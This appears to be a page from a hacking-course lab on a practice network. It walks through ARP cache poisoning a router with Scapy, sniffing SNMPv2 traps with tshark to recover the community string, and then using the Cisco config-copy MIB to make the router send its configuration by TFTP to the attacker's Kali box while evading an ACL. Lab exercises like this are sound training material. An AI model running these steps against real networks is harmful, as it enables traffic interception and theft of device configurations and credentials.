 ### Task 1

Using `tshark` or [Wireshark](http://wiresharkdownloads.riverbed.com/video/wireshark/introduction-to-wireshark/), discover the SNMPv2 community string used in Traps sent to **windows.pod.becomingahacker.com**. The Get/Set community string uses the same password. Use ARP cache poisoning against the router to send the SNMPv2 trap to your kali box instead of windows.

{% capture text %}
<pre>
root@kali:~# <strong> host windows.pod.becomingahacker.com</strong>
windows.pod.becomingahacker.com has address 10.1.1.4
root@kali:~# <strong> scapy</strong>
Welcome to Scapy (2.2.0)
>>> arpcachepoison('10.1.1.1','10.1.1.4')
.
Sent 1 packets.
.^Z
[1]+  Stopped                 sudo scapy


root@kali:~# <strong> bg</strong>
[1]+ sudo scapy &

root@kali:~# <strong> tshark -i eth1 -V udp port 162</strong>
Capturing on 'eth1'
Frame 1: 443 bytes on wire (3544 bits), 443 bytes captured (3544 bits) on interface 0
...
Simple Network Management Protocol
	version: v2c (1)
	community: *****
	data: snmpV2-trap (7)
	snmpV2-trap
		request-id: 5114
		error-status: noError (0)
		error-index: 0
		variable-bindings: 15 items
...
</pre>
{% endcapture %}
{% include hint.html text=text %}

### Task 2

Using the discovered SNMPv2 community string and the [Cisco-Config-Copy-MIB](http://tools.cisco.com/Support/SNMP/do/BrowseMIB.do?local=en&mibName=CISCO-CONFIG-COPY-MIB), make the router upload its configuration via TFTP to **kali.pod.becomingahacker.com**. The uploaded configuration should be placed in `/srv/tftp`. A tool using [Scapy](http://www.secdev.org/projects/scapy/doc/) is provided to help you with this. ( `~/becoming-a-hacker/labs/networking/get-cisco-cfg.py` ) An access control list (ACL) configured on the router is blocking you--**bypass it!** Verify the TFTP server is running:

{% capture code %}
netstat -lupn
{% endcapture %}
{% include copy-paste.html title="Netstat" code=code %}
If the TFTP server isn't running, use the command `systemctl start atftpd.service`,
followed by `systemctl status atftpd.service`.
